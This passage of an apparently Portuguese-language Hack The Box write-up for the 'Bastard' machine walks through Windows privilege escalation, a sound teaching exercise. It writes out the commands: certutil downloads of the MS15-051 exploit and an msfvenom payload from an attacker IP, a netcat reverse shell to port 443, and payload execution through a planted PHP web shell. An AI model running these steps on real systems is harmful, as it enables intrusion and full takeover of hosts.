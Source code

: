 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_ms.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_ms1.png)

> https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/ms15-051.zip

Baixamos pra nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_ms2.png)

### Certutil

Passamos agora para a máquina Windows

> certutil -urlcache -split -f http://10.10.16.117/ms15-051x64.exe ms15-051x64.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_c.png)

#### Virando Administrador

Agora executamos ele para nos dar um shell de root (lembrar que jogamos o nc64.exe lá dentro antes)

> ./ms15-051x64.exe "nc64.exe -e cmd 10.10.16.117 443"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_root.png)

Bom, essa foi uma maneira, agora vamos explorar outra

# Escalação de Privilégio (2º Método - Msfvenom - Meterpreter - MS16-014)

Primeiro passo é gerar o payload.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_pay.png)

Baixamos ele na máquina bastard

> http://10.10.10.9/dixuSOspsOUU.php?cmd=certutil -urlcache -split -f http://10.10.16.117/payload.exe payload.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_pay1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_paye1.png)

Setamos nosso handler

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_pay3.png)

Executamos o payload

> http://10.10.10.9/dixuSOspsOUU.php?cmd=payload.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_pay2.png)
